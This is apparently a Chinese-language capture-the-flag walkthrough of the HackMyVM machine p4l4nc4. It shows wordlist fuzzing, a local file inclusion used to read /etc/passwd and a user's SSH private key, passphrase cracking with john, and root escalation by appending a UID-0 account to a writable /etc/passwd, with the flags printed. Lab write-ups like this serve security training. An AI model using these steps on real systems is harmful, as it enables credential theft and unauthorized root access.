 # p4l4nc4

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=p4l4nc4

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

看到虚拟机上显示的用户名 4ng014

web 上只找到了http://192.168.5.39/robots.txt 使用 cewl 将它的单词拉取下来，将单词字典作为目录再次扫描 web，但是什么都没有。

使用字典爆破一下上面的用户 ssh 密码，但是没戏。

同时发现用户名使用的是 1337 format 格式(把拉丁字母转变成数字或是特殊符号)，可能字典密码中也需要进行这样处理，爆破之后也还是没戏:

```
o -> 0
l -> 1
e -> 3
a -> 4
s -> 5
g -> 6
t -> 7
i -> 1

cat pass.txt|sed -e 's/a/4/g' -e 's/e/3/g' -e 's/i/1/g' -e 's/l/1/g' -e 's/o/0/g' -e 's/s/5/g' -e 's/t/7/g' | tr '[:upper:]' '[:lower:]' | sort | uniq > new_pass
```

再用这个字典扫描一下 web 目录，发现 http://192.168.5.39/n3gr4/ 使用同样的字典对这个目录进行扫描，发现 http://192.168.5.39/n3gr4/m414nj3.php 可能缺少参数，使用字典 /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt 进行探测，发现 page 参数，看参数的名字像是存在 LFI，读取下/etc/passwd 文件，可以读取:

```
curl http://192.168.5.39/n3gr4/m414nj3.php?page=/etc/passwd

p4l4nc4:x:1000:1000:p4l4nc4,,,:/home/p4l4nc4:/bin/bash
```

在使用常见的 /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt 进行探测，access.log 等日志文件都不能读取。

看看 p4l4nc4 这个用户的私钥能不能读取，果然能读取到 /home/p4l4nc4/.ssh/id_rsa , 拿到私钥之后，使用 ssh 登陆，但是私钥有密码，使用 john + rockyou 得到密码 friendster ，再次 ssh 登陆输入私钥密码。

拿到了 user flag:

```
p4l4nc4@4ng014:~$ cat user.txt
HMV{6cfb952777b95ded50a5be3a4ee9417af7e6dcd1}
```

枚举，发现 /etc/passwd 文件可写，直接新建一个超级用户：

```
openssl passwd -1 -salt new 123

echo 'admin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

切换到 admin 用户输入密码 123 拿到 root flag:

```
root@4ng014:~# cat root.txt
HMV{4c3b9d0468240fbd4a9148c8559600fe2f9ad727}
```
